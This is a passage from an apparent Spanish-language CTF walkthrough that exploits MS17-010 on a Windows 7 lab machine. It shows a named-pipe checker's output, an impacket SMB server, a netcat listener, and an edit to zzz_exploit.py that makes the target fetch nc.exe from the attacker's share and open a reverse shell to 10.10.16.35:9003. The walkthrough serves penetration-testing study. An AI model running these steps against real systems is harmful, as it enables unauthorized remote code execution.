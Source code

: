 Vemos que todos los `named pipes` con devuelven un `STATUS_ACCESS_DENIED`, esto es debido a que en el `checker.py` tenemos que añadirle que como nombre de usuario use `guest`

```
USERNAME = 'guest'
PASSWORD = ''
```

Una vez hecho eso, si lo volvemos a `ejecutar` nos `detectará` los `named pipes` correctamente

```
# python2 checker.py 10.129.204.243 
Target OS: Windows 7 Professional 7601 Service Pack 1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_OBJECT_NAME_NOT_FOUND
samr: Ok (64 bit)
netlogon: Ok (Bind context 1 rejected: provider_rejection; abstract_syntax_not_supported (this usually means the interface isn't listening on the given endpoint))
lsarpc: Ok (64 bit)
browser: Ok (64 bit)
```

Nos `descargamos` el `netcat` [https://eternallybored.org/misc/netcat/](https://eternallybored.org/misc/netcat/) y nos `creamos` un `servidor SMB` en la ruta donde se encuentra el `binario`

```
# impacket-smbserver smbFolder $(pwd) -smb2support
```

Nos ponemos en `escucha` en nuestra equipo por `netcat`

```
# nc -nlvp 9003
```

Si `ejecutamos` el `zzz_exploit.py` nos va a dar un error y eso es debido a que debemos añadir el username `guest` al código

```
USERNAME = 'guest'
PASSWORD = ''
```

Una vez hecho esto ya funcionará el `exploit`, pero estará creando un archivo `pwned.txt`, que a nosotros no nos interesa. Para que nos mande una `reverse shell` debemos `modificar` este `método` de `python`

```
def smb_pwn(conn, arch):
	#smbConn = conn.get_smbconnection()
	
	#print('creating file c:\\pwned.txt on the target')
	#tid2 = smbConn.connectTree('C$')
	#fid2 = smbConn.createFile(tid2, '/pwned.txt')
	#smbConn.closeFile(tid2, fid2)
	#smbConn.disconnectTree(tid2)
	
	#smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
	service_exec(conn, r'cmd /c \\10.10.16.35\smbFolder\nc.exe -e cmd 10.10.16.35 9003')
	# Note: there are many methods to get shell over SMB admin session
	# a simple method to get shell (but easily to be detected by AV) is
	# executing binary generated by "msfvenom -f exe-service ..."
```
